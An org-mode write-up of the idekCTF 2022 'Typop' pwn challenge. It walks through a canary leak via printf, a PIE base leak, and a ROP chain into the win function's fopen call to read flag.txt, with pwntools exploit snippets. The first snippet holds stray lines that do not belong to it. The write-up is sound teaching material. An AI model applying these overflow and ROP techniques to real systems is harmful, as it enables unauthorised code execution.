 #+TITLE: typop
#+AUTHOR: d0ntrash
* Pwn/Typop
** Challenge Info
   * Name: Typop
   * Author: JW#9396
   * Description: While writing the feedback form for idekCTF, JW made a small typo. It still compiled though, so what could possibly go wrong?
   * Link to files: [[https://idekctf-challenges.storage.googleapis.com/uploads/14d19059835451f069fc575d8b2b9818a1fc2e5c254fc1c36218e6220d29bdb1/typop.tar][idek2022]]
** Intro
   :PROPERTIES:
   :ID:       016f2d9c-2fde-478c-bb03-5f140e01edca
   :END:
   The challenge binary has only a few functions. In the ~main~ function not much happens besides ~getFeedback~ getting called in a ~while(true)~ loop:

   [[file:data/01/6f2d9c-2fde-478c-bb03-5f140e01edca/screenshot-20230116-135923.png]]

   The interesting parts are in the ~getFeedback~ function:

   [[file:data/01/6f2d9c-2fde-478c-bb03-5f140e01edca/screenshot-20230116-140358.png]]

   In both read functions there is a buffer overflow. However as we can see at the end of the function, the binary also uses stack canaries.
   So we can't just overflow the buffer to overwrite the return address because the ~__stack_chk_fail()~ check would fail.

*** Canary leak
    :PROPERTIES:
    :ID:       f1e4da43-eb15-4633-84cb-dac644906a77
    :END:
    To overflow the buffer without crashing the process we first need to leak the canary. Luckily, we can use the first
    ~read()~ call followed by the ~printf()~ call to leak the canary, then write the correct canary back using the second ~read()~ call.

    [[file:data/f1/e4da43-eb15-4633-84cb-dac644906a77/screenshot-20230116-142422.png]]

    In this case the canary is ~0x4f4bde881e0f0f00~ and comes directly after the input buffer. On Linux a stack canary always starts with a NULL byte.
    Since ~printf()~ always prints up to the next NULL byte we simply have to overflow the buffer by one byte to overwrite the NULL byte to print the
    stack canary followed by the ~rbp~ up to the next NULL byte.

    The following code snippet does exactly that:
    #+begin_src python
    r.recvuntil(b"Do you want to complete a survey?")
    r.sendline(b"y")
    r.recvuntil("Do you like ctf?\n")
    r.sendline(b'a'*offset_to_canary)
    r.recvline() # recv input to new line
    leak = r.recvline()
    canary = int.from_bytes(b'\x00' + leak[:7], 'little')
    rbp = int.from_bytes(leak[7:13], 'little')
    print(f'rbp:          {hex(rbp)}')
    print(f'canary:       {hex(canary)}')

        r = process([exe.path])
    return r
    #+end_src

    After the overflow the stack looks like this:

    [[file:data/f1/e4da43-eb15-4633-84cb-dac644906a77/screenshot-20230116-143231.png]]

    Now that we know the canary, we can use the second ~read()~ call to write it back to the stack.

    #+begin_src python
    r.recvuntil(b'Aww :( Can you provide some extra feedback?')
    r.sendline(b'a' * offset_to_canary + p64(canary))
    #+end_src

    When the ~getFeedback~ function gets called the second time we can use the information leak to leak the return address from
    the stack which points to the main function. From this point, the offset to the base address
    of the binary can be calculated which we can use to build our ROP chain.

    #+begin_src python
    r.recvuntil(b"Do you want to complete a survey?")
    r.sendline(b"y")
    r.recvuntil("Do you like ctf?\n")
    # leak return address to main
    r.sendline(b'a' * offset_to_ret)
    r.recvline() # recv input to new line
    ret_leak = int.from_bytes(r.recvline()[:6], 'little')
    # set base address
    exe.address = ret_leak - 0x1447
    #+end_src

    From here we could try to leak a libc address to ret2libc. In this case however, the binary contains a ~win~ function we can use
    which reads a file and prints its content:

    [[file:data/f1/e4da43-eb15-4633-84cb-dac644906a77/screenshot-20230116-150202.png]]

    Unfortunately, just overwriting the return address with the win address wont work since the ~win~ function takes 3 characters of the
    filename as parameters. The parameters are passed via the registers ~rdi~, ~rsi~ and ~rdx~. The registers ~rsi~ and ~rdi~ can be set
    by using simple ROP gadgets. For ~rdx~ however I did not find any useful gadgets.

    So instead of calling the entry point of the ~win~ function we can also call it with an offset to the point where ~fopen~ gets called.
    Therefore, we have to set the parameters for ~fopen~ befor jumping there. ~fopen~ takes a pointer to the filename and a pointer to a string containing
    the mode. Since we only need 2 parameters which get passed via ~rdi~ and ~rsi~ we can achieve this using our already found gadgets:

    #+begin_src python
    fopen = p64(exe.address + 0x12ba)
    pop_rdi = p64(exe.address + 0x14d3)
    pop_rsi_r15 = p64(exe.address + 0x14d1)
    read_mode_str = p64(exe.address + 0x2008)
    r.sendline(b'a' * offset_to_canary + p64(canary)
               # Overwrite rbp
               # Set offset big enough so fgets does not fuck up the stack
               + p64(rbp - 0x100)
               # ROP Chain:
               # pop pointer to 'flag.txt' string into rdi
               + pop_rdi + p64(rbp+0x28)
               # pop pointer to 'r' string into rsi
               + pop_rsi_r15 + read_mode_str + p64(0xdeadbeef)
               # return directly to fopen call in win function
               + fopen
               # filename string which will be used for fopen
               + b'flag.txt\x00\x00')
    #+end_src

    This will read the flag from the ~flag.txt~ file and print it to stdout.

    [[file:data/f1/e4da43-eb15-4633-84cb-dac644906a77/screenshot-20230116-152138.png]]
